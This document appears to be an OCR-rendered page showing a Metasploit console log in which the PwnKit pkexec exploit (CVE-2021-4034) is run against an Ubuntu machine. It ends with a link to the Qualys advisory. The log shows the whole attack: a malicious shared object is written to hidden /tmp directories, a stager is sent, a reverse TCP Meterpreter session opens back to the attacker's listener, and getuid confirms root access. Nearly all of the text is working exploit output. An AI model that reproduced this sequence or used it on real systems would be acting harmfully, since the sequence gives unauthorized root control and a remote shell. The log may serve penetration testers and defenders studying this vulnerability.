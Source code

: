 ```
msf exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[*] Started reverse TCP handler on 10.5.135.101:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Found pkexec version 0.105
[*] Determined host os is Ubuntu
[*] Polkit package version = 0.105-26ubuntu1
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.pacfbr
[*] /tmp/.pacfbr created
[!] Verify cleanup of /tmp/.pacfbr
[*] Running python3 /tmp/.pacfbr/.jxkiwyj /usr/bin/pkexec /tmp/.pacfbr/khmtpqj/khmtpqj.so khmtpqj mbbidsfl
[*] GLib: Cannot convert message: Could not open converter from “UTF-8” to “mbbidsfl”
The value for the SHELL variable was not found the /etc/shells file

This incident has been reported.
[+] The target is vulnerable.
[*] Checking for pkexec
[*] Checking for /usr/bin/pkexec
[*] Found pkexec here: /usr/bin/pkexec
[*] Creating directory /tmp/.lukbdme
[*] /tmp/.lukbdme created
[*] Writing '/tmp/.lukbdme/rnaxcz/rnaxcz.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.lukbdme
[*] Running python3 /tmp/.lukbdme/.iwksanwva /usr/bin/pkexec /tmp/.lukbdme/rnaxcz/rnaxcz.so rnaxcz jnagcbkqds
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 10.5.132.107
[+] Deleted /tmp/.lukbdme/rnaxcz/rnaxcz.so
[+] Deleted /tmp/.lukbdme/.iwksanwva
[!] Attempting to delete working directory /tmp/.lukbdme
[!] Attempting to delete working directory /tmp/.lukbdme
[*] Meterpreter session 3 opened (10.5.135.101:4444 -> 10.5.132.107:54758 ) at 2022-03-01 14:40:18 -0600

meterpreter > sysinfo
Computer     : 10.5.132.107
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/
meterpreter > 


```

**Reference:** https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
